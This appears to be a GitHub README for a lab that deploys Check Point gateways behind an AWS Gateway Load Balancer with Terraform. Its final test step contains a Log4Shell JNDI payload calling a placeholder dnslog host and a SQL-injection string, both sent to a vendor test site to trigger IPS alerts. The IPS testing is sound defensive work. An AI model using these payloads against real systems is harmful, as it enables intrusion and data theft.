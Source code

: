 # Deploy GWLB load-balanced Check Point Security Gateways into centralized Security VPC

## Goals

### Architecture

Ilustration picture:
![](2023-02-07-08-53-48.png)

## Steps

### 1. AWS Cloud Shell
Open [AWS CloudShell](https://eu-central-1.console.aws.amazon.com/cloudshell/home?region=eu-central-1#) in your region.

### 2. Make sure Terraform is available
```bash
git clone https://github.com/tfutils/tfenv.git ~/.tfenv
mkdir ~/bin
ln -s ~/.tfenv/bin/* ~/bin/
tfenv install
tfenv use
terraform -version
```

### 3. Clone repo
```bash
git clone https://github.com/mkol5222/tf-security-vpc.git ~/tf-security-vpc

cd ~/tf-security-vpc
```

### 4. Build test environment VPC

Review inputs
```
cd ~/tf-security-vpc/01-test-env/
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 5. Place instances to TGW attachment subnets
Collect inputs
```
(cd ~/tf-security-vpc/01-test-env/; terraform output)
```

Set inputs
* *vpc_id* and *region*
* *subnets_ids_list*
```
cd ~/tf-security-vpc/02-instances
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 6. Deploy GWLB and Check Point Security Gateways in ASG
Collect inputs
```
(cd ~/tf-security-vpc/01-test-env/; terraform output)
```

Set inputs
* *vpc_id* 
* *region*
* *chkp_gw_subnet_ids_list*
* *chkp_gwlbe_subnets_ids_list*
```
cd ~/tf-security-vpc/03-chkp-gwlb
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 7. Check Point Management side
Learn CME provisioning command
```
(cd ~/tf-security-vpc/03-chkp-gwlb/; terraform output -json | jq -r '."cme-command".value')
```

Make sure CME is installed and login to CHKP Management server to run this command. Command looks like:
```
autoprov_cfg -f init AWS -ak AKIAZTAmodified -sk /MNFoeHQdbTBVnammodified -mn chkp-mgmt -tn chkp-gwlb-template -cn gwlb-controller -po Standard -otp Vpn12modified -r eu-central-1 -ver R80.40
```

Enable additional blades -  e.g. Identity Awareness and IPS:
```
autoprov_cfg set template -tn chkp-gwlb-template -ips
autoprov_cfg set template -tn chkp-gwlb-template -ia
```

### 8. Monitor CME provisioning on Management Server

Open SmartConsole and monitor Gateways section for ASG instances to appear and to be provisioned with policy.

Monitor CME progress in CME log on CHKP Management:
```
 tail -f /var/log/CPcme/cme.log
```

### 9. Route traffic through GWLBe

In [route tables for TGW attachment subnets](https://eu-central-1.console.aws.amazon.com/vpc/home?region=eu-central-1#RouteTables:search=tgw), route via GWLBe instead of NAT Gateway. Route to GWLBe in same AZ.

In [route tables for NAT Gateways](https://eu-central-1.console.aws.amazon.com/vpc/home?region=eu-central-1#RouteTables:search=chkp-nat), route back to TGW attachment subnet in same region via GWLBe in same region.

### 10. Test traffic from instances in TGW attachment subnet

Connect to instances using Session Manager and initiate traffic to Internet (*curl*, *ping*, etc.). Monitor Check Point logs.

Keep connecting and report egress IP. Run on instance in TGW attachment subnet.
```
while true; do I=$(curl -s ip.iol.cz/ip/); echo $I; done
```

Other example:
```
while true; do date; ping -c 3 1.1.1.1; echo; done
```

Cause IPS incidents (should be prevented/catched by IPS if configured):
```
curl http://www.cpcheckme.com/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}' -v

curl -k 'http://www.cpcheckme.com/mutillidae/index.php?page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details'
```

## Various materials

* Check Point Cloud Management [Admin Guide](https://sc1.checkpoint.com/documents/IaaS/WebAdminGuides/EN/CP_CME/Content/Topics-CME/Overview.htm)
* Check Point CloudGuard Controller [Admin Guide](https://sc1.checkpoint.com/documents/R81.10/WebAdminGuides/EN/CP_R81.10_CloudGuard_Controller_AdminGuide/Topics-CGRDG/Introduction.htm)
* Check Point CGNS TerraForm modules [GitHub repo](https://github.com/CheckPointSW/CloudGuardIaaS/tree/master/terraform/aws)
* CGNS AWS Gateway LoadBalancer - Deep Dive Webinar [materials](https://community.checkpoint.com/t5/Cloud-Network-Security/AWS-Gateway-LoadBalancer-Deep-Dive-Webinar/td-p/117827) and [diagram](https://community.checkpoint.com/t5/Cloud-Network-Security/The-Workshop-AWS-Gateway-LoadBalancer-amp-CloudGuard-Network/td-p/145715)
* AWS workshop on CHKP CGNS with GWLB with [traffic flows](https://checkpoint.awsworkshop.io/02handsonflows/3_centegress.html)
